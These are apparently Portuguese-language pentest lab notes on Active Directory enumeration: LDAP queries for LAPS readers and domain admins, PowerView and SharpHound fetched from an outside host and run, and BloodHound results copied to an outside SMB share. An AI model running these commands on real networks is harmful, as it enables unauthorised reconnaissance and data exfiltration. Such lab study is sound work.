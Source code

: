 Membros dos grupos:

```
$ldap_filter = "(name=LAPS_Readers)"; $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();$PDC = ($domainObj.PdcRoleOwner).Name;$SearchString = "LDAP://";$SearchString += $PDC + "/";$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))";$SearchString += $DistinguishedName;$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString);$objDomain = New-Object System.DirectoryServices.DirectoryEntry;$Searcher.SearchRoot = $objDomain;$Searcher.filter=$ldap_filter;$Result = $Searcher.FindAll(); Foreach($obj in $Result) {$obj.Properties.member}
```

Enumerar domain admins:
```
$ldap_filter = "(|(name=Domain Admins)(name=Administrators))"; $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();$PDC = ($domainObj.PdcRoleOwner).Name;$SearchString = "LDAP://";$SearchString += $PDC + "/";$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))";$SearchString += $DistinguishedName;$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString);$objDomain = New-Object System.DirectoryServices.DirectoryEntry;$Searcher.SearchRoot = $objDomain;$Searcher.filter=$ldap_filter;$Result = $Searcher.FindAll(); Foreach($obj in $Result) {$obj.Properties.member}
```

#### PowerView


```
(new-object net.webclient).downloadfile('http://10.10.14.17/PowerView.ps1', 'c:\temp\pv.ps1')
. .\pv.ps1
get-netsession -computername htb.local
get-netloggedon -computername htb.local
```

    get-netdomain
    
    get-domainuser "a0106003" #olhar um usuário específico


#### SharpHound:

```
(new-object net.webclient).downloadfile('http://10.10.14.17/SharpHound.exe', 'c:\temp\sh.exe')
.\sh.exe -c all -d active.htb --LdapUsername <UserName> --LdapPassword <Password> --domaincontroller 10.10.10.100
```
ou

```
SharpHound.exe -c all -d active.htb -SearchForest
```

```
download 20240125121655_BloodHound.zip
#ou
copy 20240125121655_BloodHound.zip \\10.10.14.17\smb\bh.zip
```

#### bloodhound-python
